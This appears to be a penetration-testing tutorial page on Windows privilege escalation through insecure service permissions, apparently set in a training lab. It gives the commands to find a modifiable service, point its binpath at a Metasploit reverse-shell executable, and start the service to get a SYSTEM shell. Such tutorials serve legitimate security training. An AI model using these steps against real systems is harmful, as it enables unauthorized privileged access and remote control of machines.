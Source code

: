 # Insecure Permission

Each service has an ACL which defines certain service-specific permissions. Some permissions are innocuous \(e.g. SERVICE\_QUERY\_CONFIG, SERVICE\_QUERY\_STATUS\). Some may be useful \(e.g. SERVICE\_STOP, SERVICE\_START\). Some are dangerous \(e.g. SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS\)

**If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.** 

Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges! unless the user you have access to can reboot the system and the service would automatically run on startup

we use winPEAS to find services with insecure permissions

![](../../../../.gitbook/assets/image%20%2877%29.png)

![](../../../../.gitbook/assets/image%20%2887%29.png)

Note that we can modify the “daclsvc” service.

We can confirm this with accesschk.exe:

```text
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

![](../../../../.gitbook/assets/image%20%2882%29.png)

Check the current configuration of the service:

```text
sc qc daclsvc
```

![](../../../../.gitbook/assets/image%20%2871%29.png)

demand start means the service has to started manually he binary pathname is also available the service has no dependencies and it also should run with the system user permissions

Check the current status of the service:

```text
​sc query daclsvc
```

![](../../../../.gitbook/assets/image%20%2883%29.png)

the service is stopped

since we can change the service configs the easiest way to exploit this is to set the binary path to the location of a reverse shell payload

create a reverse shell with metasploit and place it in a directory where you have read/write permission

then Reconfigure the service to use our reverse shell executable:

```text
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```

![](../../../../.gitbook/assets/image%20%2879%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start daclsvc
```

![](../../../../.gitbook/assets/image%20%2878%29.png)

